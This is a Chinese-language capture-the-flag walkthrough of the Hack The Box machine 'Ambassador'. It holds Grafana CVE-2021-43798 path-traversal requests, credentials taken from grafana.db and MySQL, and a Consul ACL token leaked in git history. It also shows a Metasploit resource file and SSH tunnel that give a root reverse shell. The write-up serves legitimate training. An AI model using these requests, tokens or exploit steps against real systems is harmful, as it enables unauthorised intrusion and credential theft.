

*Difficulty: Medium*

---

## 扫描

果然用之前写的[对Easy机器的扫描脚本](../WriteUp/HTB-Shoppy.md#htb_easy_firstscaning)不大好使了啊……  
自己 `curl -I` 看了眼HTTP响应头真没有域名信息。开浏览器和Burp访问一下目标IP，竟然没有拦截到请求（不过访问 `/robots.txt` 又能拦截）？不是很懂……

还是先回到通常的流程吧，先进行扫描。  
以防Medium难度的机器会开启大端口，就扫一下所有端口吧：
```bash
$ nmap -p- --min-rate=5000 10.10.11.183 -oN allPortScan.nmap

$ cat allPortScan.nmap | grep open | awk -F '/' '{print $1}' | tr '\n' ',' | sed "s/,$//" 
22,80,3000,3306
```

然后详细扫描这几个open端口：
```bash
sudo nmap -v -n -Pn -p 22,80,3000,3306 -sV -O --script=vuln 10.10.11.183 -oN 10.10.11.183.nmap
```


## 漏洞分析

- 22/TCP: SSH优先度最低，先不看。
- 80/TCP: HTTP，优先度1。
- 3000/TCP: nmap扫出“ppp?”，不过看vuln脚本扫出HTTP头的样子，优先度2。
- 3306/TCP: MySQL，估计有了账号密码之后是另一个突破口，优先度3。

### 80端口

- robots.txt：无
- 网页源码：Hugo 0.94.2，CSS的path看到 `ananke`，搜了下是Hugo的主题
- 子域枚举：因为没发现域名所以不枚举了
- 目录枚举：扫了个 `directory-list-2.3-medium.txt` 无发现
- 网页功能：似乎就是一个静态页面。

总的来说，暂时没发现突破口。

### 3000端口: Grafana

网页源码：  

- "buildInfo"里有 `"version": "8.2.0"`
- `"subTitle": "Grafana v8.2.0 (d7f71e9eae)"`

知道版本就好办了，谷歌 `grafana version 8.2.0 exploit` 发现漏洞。


#### PoC (CVE-2021-43798)

> <https://github.com/jas502n/Grafana-CVE-2021-43798>  
> <https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix>  

网页源码里也确实有上面文章提到的plugin，如alertlist。  
然后学着github里的样子，获取敏感文件即可。  

浏览器访问似乎不行，会自动把 `../` 都删掉（后来发现原来中间的斜杠需要URL编码……），用Burp发，成功获取响应。内容太长了，右键保存到本地：  
```
GET /public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db HTTP/1.1

GET /public/plugins/alertlist/../../../../../../../../etc/grafana/grafana.ini HTTP/1.1
```



*这里直接 `grep grafana.db` 会有什么bin文件报错。后来才发觉这个就真是整个DB库，可以在本地用SQL命令进行访问的*

```bash
$ strings grafana.db | grep admin
, `is_admin` INTEGER NOT NULL
, `is_admin`
, `is_admin`
, `is_admin` INTEGER NOT NULL
, `is_admin` INTEGER NOT NULL
+       adminadmin@localhost
        admin
adminadmin@localhostdad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab0690X27trve2uf960YdtaMF2022-03-13 20:26:452022-09-01 22:39:382022-12-23 10:33:36


$ cat grafana.ini

#################################### Security ####################################
[security]
# disable creation of admin user on first start of grafana
;disable_initial_admin_creation = false

# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
……
```

收集到上面这些信息，不过不懂如何使用。  
那个admin账户密码能登陆进Grafana，但是进去了好像也并没有什么用。  

#### 获取grafana.db信息

后来发现这篇文章：
> <https://vk9-sec.com/grafana-8-3-0-directory-traversal-and-arbitrary-file-read-cve-2021-43798>

浏览器访问 `http://10.10.11.183:3000/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fvar/lib/grafana/grafana.db` 再次获取DB文件。（之前在Burp右键保存的那个由于带了HTTP头，进入DB执行有些命令时会报错）

感觉这篇写得比较清晰了，跟着PoC文章试试。  
这时候才明白了上面Github文章里说的什么[data source加密](https://github.com/jas502n/Grafana-CVE-2021-43798#ensure-encryption-of-data-source-secrets)。而一开始因为Github和这篇文章都提到那个加密，  
> Note: Data sources store passwords and basic auth passwords in secureJsonData encrypted (AES-256 in CFB mode) by default.  

导致我过于关注 `data_source` 表里的对应字段，发现是 `{}` 啥都没有于是就懵了……
  
进 `grafana.db` 到处看看，发现 `user` 表里面有个admin的账户和疑似加密的密码，但是看上去不是那么容易能解密……以及猜测这个可能就是我刚刚登进Grafana的admin账户密码。   

```bash
sqlite3 grafana.db
sqlite> .tables
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2022-12-25 03:56:57|0|{}|1|uKewFgM4z

sqlite> select * from user;
1|0|admin|admin@localhost||864a9461c490435c1743f73ed43c215ecfafe48423b6ad1a5feeb893829a48a908920761180b1bbba525982e241390f98205|0X27trve2u|f960YdtaMF||1|1|0||2022-03-13 20:26:45|2022-12-24 16:25:07|0|2022-12-24 16:32:31|0
```

又在Grafana里转了两圈，看到Configuration菜单里的Data source和Users。  
其中Users里面就是我登陆进来的admin账户，所以上面的猜想又更深了一分。而Data source里面有刚刚在 `grafana.db` 里看到的那个 `mysql`，原来是对应着这里啊。 

又想想刚刚看 `data_source` 表都没有明白各列是什么意思，搜了一下sqlite展示列名的语法：
```bash
sqlite> PRAGMA table_info(data_source);
0|id|INTEGER|1||1
1|org_id|INTEGER|1||0
2|version|INTEGER|1||0
3|type|TEXT|1||0
4|name|TEXT|1||0
5|access|TEXT|1||0
6|url|TEXT|1||0
7|password|TEXT|0||0
8|user|TEXT|0||0
9|database|TEXT|0||0
10|basic_auth|INTEGER|1||0
11|basic_auth_user|TEXT|0||0
12|basic_auth_password|TEXT|0||0
13|is_default|INTEGER|1||0
14|json_data|TEXT|0||0
15|created|DATETIME|1||0
16|updated|DATETIME|1||0
17|with_credentials|INTEGER|1|0|0
18|secure_json_data|TEXT|0||0
19|read_only|INTEGER|0||0
20|uid|TEXT|1|0|0

sqlite> PRAGMA table_info(user);
0|id|INTEGER|1||1
1|version|INTEGER|1||0
2|login|TEXT|1||0
3|email|TEXT|1||0
4|name|TEXT|0||0
5|password|TEXT|0||0
6|salt|TEXT|0||0
7|rands|TEXT|0||0
8|company|TEXT|0||0
9|org_id|INTEGER|1||0
10|is_admin|INTEGER|1||0
11|email_verified|INTEGER|0||0
12|theme|TEXT|0||0
13|created|DATETIME|1||0
14|updated|DATETIME|1||0
15|help_flags1|INTEGER|1|0|0
16|last_seen_at|DATETIME|0||0
17|is_disabled|INTEGER|1|0|0
```

对照着数据看了一下，原来 `|dontStandSoCloseToMe63221!|grafana|` 就是账户密码啊！  
以及刚刚看Configuration菜单里Data source里面也是 `mysql`，莫非这是连接MySQL的账户密码？毕竟我们最开始有扫描到3306。  
既然现在有密码了那就试试能不能转移战场吧。

### 3306端口: MySQL

用刚刚收集的信息成功连接~  
```bash
$ mysql -u grafana -h 10.10.11.183 -p                                
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 15
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> \h
```

虽然不是很懂为什么一下说 `MariaDB` 一下说 `MySQL`的……


#### 探索DB信息

先看都有什么DB：
```bash
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
```

名为 `grafana` 的DB是空的。  

#### DB：mysql

```bash
MySQL [grafana]> use mysql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [mysql]> show tables;
+------------------------------------------------------+
| Tables_in_mysql                                      |
+------------------------------------------------------+

...

| user                                                 |
+------------------------------------------------------+

MySQL [mysql]> select * from user;
| Host      | User             | Select_priv | Insert_priv | Update_priv | Delete_priv | Create_priv | Drop_priv | Reload_priv | Shutdown_priv | Process_priv | File_priv | Grant_priv | References_priv | Index_priv | Alter_priv | Show_db_priv | Super_priv | Create_tmp_table_priv | Lock_tables_priv | Execute_priv | Repl_slave_priv | Repl_client_priv | Create_view_priv | Show_view_priv | Create_routine_priv | Alter_routine_priv | Create_user_priv | Event_priv | Trigger_priv | Create_tablespace_priv | ssl_type | ssl_cipher | x509_issuer | x509_subject | max_questions | max_updates | max_connections | max_user_connections | plugin                | authentication_string                                                  | password_expired | password_last_changed | password_lifetime | account_locked | Create_role_priv | Drop_role_priv | Password_reuse_history | Password_reuse_time | Password_require_current | User_attributes |
+-----------+------------------+-------------+-------------+-------------+-------------+-------------+-----------+-------------+---------------+--------------+-----------+------------+-----------------+------------+------------+--------------+------------+-----------------------+------------------+--------------+-----------------+------------------+------------------+----------------+---------------------+--------------------+------------------+------------+--------------+------------------------+----------+------------+-------------+--------------+---------------+-------------+-----------------+----------------------+-----------------------+------------------------------------------------------------------------+------------------+-----------------------+-------------------+----------------+------------------+----------------+------------------------+---------------------+--------------------------+-----------------+
| %         | grafana          | Y           | Y           | Y           | Y           | Y           | Y         | Y           | Y             | Y            | Y         | N          | Y               | Y          | Y          | Y            | Y          | Y                     | Y                | Y            | Y               | Y                | Y                | Y              | Y                   | Y                  | Y                | Y          | Y            | Y                      |          |            |             |              |             0 |           0 |               0 |                    0 | caching_sha2_password | $A$005$W>c%;m{)[j}1&fNZnOExr5pLrZWaAHASAHj8aNg26tbuTaWzyKysghUuC | N                | 2022-09-02 00:55:10   |              NULL | N              | Y                | Y              |                   NULL |                NULL | NULL                     | NULL            |
| localhost | debian-sys-maint | Y           | Y           | Y           | Y           | Y           | Y         | Y           | Y             | Y            | Y         | Y          | Y               | Y          | Y          | Y            | Y          | Y                     | Y                | Y            | Y               | Y                | Y                | Y              | Y                   | Y                  | Y                | Y          | Y            | Y                      |          |            |             |              |             0 |           0 |               0 |                    0 | caching_sha2_password | $A$005$▒TXp.
SRS%8~Y`*D[dMtygnlqNDhfnltnl0j/y4bhzs8qHSzej/FzdxfdR9D | N                | 2022-03-13 22:27:09   |              NULL | N              | Y                | Y              |                   NULL |                NULL | NULL                     | NULL            |
| localhost | mysql.infoschema | Y           | N           | N           | N           | N           | N         | N           | N             | N            | N         | N          | N               | N          | N          | N            | N          | N                     | N                | N            | N               | N                | N                | N              | N                   | N                  | N                | N          | N            | N                      |          |            |             |              |             0 |           0 |               0 |                    0 | caching_sha2_password | $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED | N                | 2022-03-13 22:27:08   |              NULL | Y              | N                | N              |                   NULL |                NULL | NULL                     | NULL            |
| localhost | mysql.session    | N           | N           | N           | N           | N           | N         | N           | Y             | N            | N         | N          | N               | N          | N          | N            | Y          | N                     | N                | N            | N               | N                | N                | N              | N                   | N                  | N                | N          | N            | N                      |          |            |             |              |             0 |           0 |               0 |                    0 | caching_sha2_password | $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED | N                | 2022-03-13 22:27:07   |              NULL | Y              | N                | N              |                   NULL |                NULL | NULL                     | NULL            |
| localhost | mysql.sys        | N           | N           | N           | N           | N           | N         | N           | N             | N            | N         | N          | N               | N          | N          | N            | N          | N                     | N                | N            | N               | N                | N                | N              | N                   | N                  | N                | N          | N            | N                      |          |            |             |              |             0 |           0 |               0 |                    0 | caching_sha2_password | $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED | N                | 2022-03-13 22:27:08   |              NULL | Y              | N                | N              |                   NULL |                NULL | NULL                     | NULL            |
| localhost | root             | Y           | Y           | Y           | Y           | Y           | Y         | Y           | Y             | Y            | Y         | Y          | Y               | Y          | Y          | Y            | Y          | Y                     | Y                | Y            | Y               | Y                | Y                | Y              | Y                   | Y                  | Y                | Y          | Y            | Y                      |          |            |             |              |             0 |           0 |               0 |                    0 | auth_socket           |                                                                        | N                | 2022-03-13 22:27:06   |              NULL | N              | Y                | Y              |                   NULL |                NULL | NULL                     | NULL            |
```

这个显示太乱了……不过隐约能看到几个账号和密码，其中有root。  
姑且为了让这个表展示得好看些，把上面的加号替换成 `|`，然后另存为md文件即可用markdown的表来显示（里面有个换行，调整一下就行）。

整理完后发现，root的密码没有写；有3个mysql相关的账号其密码类似占位，3个都一样；再除开1个密码里面包含了莫名其妙的 `▒`，不知是乱码还是故意打码。  
其实就只有grafana账户有点利用价值，但是不知道会是什么密码。ssh应该不可能，因为之前看 `/etc/passwd` 里grafana账户是禁止登陆的。  

暂时记录下来，看看其他DB吧。  
> grafana:x:113:118::/usr/share/grafana:/bin/false  
> authentication_string: $A$005$W>c%;m{)[j}1&fNZnOExr5pLrZWaAHASAHj8aNg26tbuTaWzyKysghUuC

#### DB：whackywidget

本来以为这个DB没用的（因为名字有点意味不明），竟然发现了有趣的东西:
```bash
MySQL [mysql]> use whackywidget 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.088 sec)

MySQL [whackywidget]> select * from users
    -> ;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.087 sec)
```

developer用户，看了眼 `/etc/passwd` 里面是有的，估计下一步应该是SSH连接了。  

- 密码base64解密：anEnglishManInNewYork027468


## Initial Access

```bash
$ ssh developer@10.10.11.183                   
developer@10.10.11.183's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 25 Dec 2022 07:11:23 AM UTC

  System load:           0.0
  Usage of /:            80.9% of 5.07GB
  Memory usage:          39%
  Swap usage:            0%
  Processes:             229
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.183
  IPv6 address for eth0: dead:beef::250:56ff:feb9:cd51


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Sep  2 02:33:30 2022 from 10.10.0.1
developer@ambassador:~$ ls
snap  user.txt
```

## flag: user

```bash
developer@ambassador:~$ cat user.txt 
295c…………22d948
```


## Privilege Escalation

惯例收集几个基础信息：  

- sudo：无sudo执行权限
- SUID：除去/snap/里的剩这些，粗略看了几个短的命令不像是能利用的  
        
        developer@ambassador:~$ find / -perm -4000 -exec ls -l {} \; 2>/dev/null
        -rwsr-xr-x 1 root root 142792 May 11  2022 /usr/lib/snapd/snap-confine
        -rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
        -rwsr-xr-x 1 root root 22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
        -rwsr-xr-x 1 root root 473576 Mar 30  2022 /usr/lib/openssh/ssh-keysign
        -rwsr-xr-- 1 root messagebus 51344 Apr 29  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
        -rwsr-xr-x 1 root root 39144 Feb  7  2022 /usr/bin/umount
        -rwsr-xr-x 1 root root 53040 Mar 14  2022 /usr/bin/chsh
        -rwsr-xr-x 1 root root 88464 Mar 14  2022 /usr/bin/gpasswd
        -rwsr-xr-x 1 root root 85064 Mar 14  2022 /usr/bin/chfn
        -rwsr-xr-x 1 root root 67816 Feb  7  2022 /usr/bin/su
        -rwsr-xr-x 1 root root 44784 Mar 14  2022 /usr/bin/newgrp
        -rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
        -rwsr-xr-x 1 root root 166056 Jan 19  2021 /usr/bin/sudo
        -rwsr-xr-x 1 root root 55528 Feb  7  2022 /usr/bin/mount
        -rwsr-xr-x 1 root root 68208 Mar 14  2022 /usr/bin/passwd
        -rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount

- 用户家目录：有 `.gitconfig` 文件。

### 探索git

根据 `.gitconfig` 文件，我们去到 `/opt/my-app/`，先看一眼确实有 `.git` 文件夹。那么看一眼git历史：  
*至于为什么会想到检查git，大概因为前不久玩了一下[Challenges的Illumination](https://app.hackthebox.com/challenges/illumination)吧*  
```bash
developer@ambassador:/opt/my-app$ git log
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

commit c982db8eff6f10f8f3a7d802f79f2705e7a21b55
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:44:45 2022 +0000

    config script

commit 8dce6570187fd1dcfb127f51f147cd1ca8dc01c6
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:47:01 2022 +0000

    created project with django CLI

commit 4b8597b167b2fbf8ec35f992224e612bf28d9e51
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:44:11 2022 +0000

    .gitignore
```

跟django有什么关系似的，看了下版本，然后有一串密码的样子。  

```bash
developer@ambassador:/opt/my-app/whackywidget$ cat whackywidget/settings.py

Generated by 'django-admin startproject' using Django 4.0.3.

# SECURITY WARNING: keep the secret key used in production secret!
SECRET_KEY = 'django-insecure--lqw3fdyxw(28h#0(w8_te*wm*6ppl@g!ttcpo^m-ig!qtqy!l'
```

但是试着启动了一下django又会报错好像没有django环境，本来以为是需要虚拟环境（因为有个 `env/pyvenv.cfg`），不过进虚拟环境也无法启动django。大概不是这个思路吧。


继续看git历史：  
```bash
developer@ambassador:/opt/my-app$ git show
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```

这个shell脚本现在运行会报错，不过里面就是执行了一条命令，看git提交历史本来有一串token。  
确认了一下这个命令还在：  
```bash
developer@ambassador:~$ which consul
/usr/bin/consul
```

搜了搜[consul](https://github.com/hashicorp/consul)，似乎是个部署/配置服务的工具？  

### PoC

惯例谷歌一波 `consul exploit` 看看有什么。  
发现这个[利用脚本](https://github.com/adanalvarez/exploit-consul)，不过试了下不太行。（后来反应过来这个脚本里面都没有用到 `token` ……）

接着看到这几篇文章，都是说metasploit的样子。  
之前还以为HTB的靶机都是手动，没想着要用metasploit来着。先放着看看其他。（其实试了一下不过失败了，感觉是要端口转发。**详见下文方法二**）

> <https://blog.pentesteracademy.com/hashicorp-consul-remote-command-execution-via-services-api-d709f8ac3960>  
> <https://www.exploit-db.com/exploits/46074>  
> <https://www.rapid7.com/db/modules/exploit/multi/misc/consul_service_exec>

然后这篇文章，大致上知道这个命令能通过API执行任意命令。
> <https://lab.wallarm.com/consul-by-hashicorp-from-infoleak-to-rce>


## flag: root

### 方法一：Github上的exp脚本

在Github上同样搜搜 `consul exploit`，能发现这个：  
> <https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API> 

将脚本传到目标机器，按照说明执行即可获得root的反弹shell。

```bash
root@ambassador:/# cat /root/root.txt
cat /root/root.txt
d5f3…………efdf
```

### 方法二：metasploit+端口转发

补充一下这个方法，因为还挺好奇metasploit方式之前为什么失败了。  

其实在拿root shell阶段时，一开始没想到要在Github上搜，谷歌上翻找半天没发现可以直接利用的。于是姑且也尝试过metasploit，不过失败了。想了一下估计是要弄个端口转发（因为是将payload发送到目标机的127.0.0.1:8500），不过我对端口转发也只是有个大致的概念，还没实际尝试过。所以当时就暂时放弃了，选择继续去寻找exp。（主要是想快点拿flag）  

现在既然这台靶机已经拿下，就打算实践一下端口转发。

首先，建立SSH隧道（对比执行端口转发前后，可以看到本地多了个8500端口的监听）：
```bash
┌──(kali㉿kali)-[~]
└─$ ssh -v -L 8500:127.0.0.1:8500 developer@10.10.11.183

---

┌──(kali㉿kali)-[~]
└─$ netstat -tnoa | grep ":8500"
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ netstat -tnoa | grep ":8500"
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp6       0      0 ::1:8500                :::*                    LISTEN      off (0.00/0/0)
```

然后新建文本（msf.txt）写入下面命令：
```bash
use exploit/multi/misc/consul_service_exec
set rhosts 127.0.0.1
set lhost <your attack machine IP>
set lport 4455
set ACL_TOKEN bb03b43b-1d81-d62b-24b5-39540ee469b5
run
```

最后，运行msf执行上述命令（msf会自己开启监听，所以不需另外用 `nc` 开启监听，否则msf会报错说端口已被占用）：
```bash
msfconsole -r msf.txt
```

exploit成功，竟然是获得Meterpreter啊，还以为会是bash什么的。

```bash
meterpreter > getuid
Server username: root
meterpreter > pwd
/
meterpreter > cat /root/root.txt
d5f3…………efdf
```

顺便，由于SSH隧道用了 `-v` 选项，目标机会有这些log：
```bash
developer@ambassador:~$ debug1: Connection to port 8500 forwarding to 127.0.0.1 port 8500 requested.
debug1: channel 3: new [direct-tcpip]
debug1: channel 3: free: direct-tcpip: listening port 8500 for 127.0.0.1 port 8500, connect from 127.0.0.1 port 36675 to 127.0.0.1 port 8500, nchannels 4
debug1: Connection to port 8500 forwarding to 127.0.0.1 port 8500 requested.
debug1: channel 3: new [direct-tcpip]
debug1: channel 3: free: direct-tcpip: listening port 8500 for 127.0.0.1 port 8500, connect from 127.0.0.1 port 40919 to 127.0.0.1 port 8500, nchannels 4
```


以上。


---

## 后记

2022/12/25  
竟然在年内打完这台啦，不愧是Medium里用户评分最简单的一台www  
也算是赶上了好时候，一直都是只敢玩玩THM，（大概一年前左右刚入门时玩了一下HTB完全不懂严重受挫于是没想着自己能打HTB……）12月初因为各种契机，开始琢磨着捡起号玩玩HTB时看到有这台似乎较简单的Medium，又看了下Rank的计算就是打6台升到Hacker。于是12月有空就打靶，功夫不负有心人吧！

也该准备准备复习CEH了。等考完继续愉快打靶~


2022/01/10  
补充了一下方法二（metasploit+端口转发）。  
主要是想弄清为什么打靶过程中用metasploit失败了，之前琢磨着应该是要做个端口转发。如果想法正确，那么正好可以借此验证一下，顺带着把端口转发的理论知识转化为实践。
结果实验成功~